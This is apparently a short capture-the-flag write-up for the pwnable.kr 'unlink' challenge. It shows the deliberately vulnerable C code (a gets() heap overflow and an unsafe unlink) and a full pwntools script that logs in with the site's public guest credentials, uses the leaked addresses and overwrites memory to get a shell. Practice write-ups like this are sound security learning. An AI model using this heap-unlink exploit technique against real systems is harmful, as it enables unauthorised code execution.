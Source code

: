 ```c
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

This game took me a lot of time.

It's last game I solved in [Toddler's Bottle] level.

I feel it's easy now.

// DETAILS

EXP: 

```python
#!/usr/bin/python3
# coding=utf-8

from pwn import *

# context.log_level = "debug"

shell_addr = 0x080484EB

pwn_ssh = ssh(host="pwnable.kr", port=2222, user="unlink", password="guest")
p = pwn_ssh.process(executable="./unlink", argv=["./unlink"])

stack_addr = int(p.recvline().strip().split(b"0x")[1], 16)
heap_addr = int(p.recvline().strip().split(b"0x")[1], 16)

payload = p32(shell_addr) + b"k"*(0x4*3) + p32(heap_addr+(0x4*3)) + p32(stack_addr+0x10)

p.sendline(payload)
p.interactive()
```

### blukat
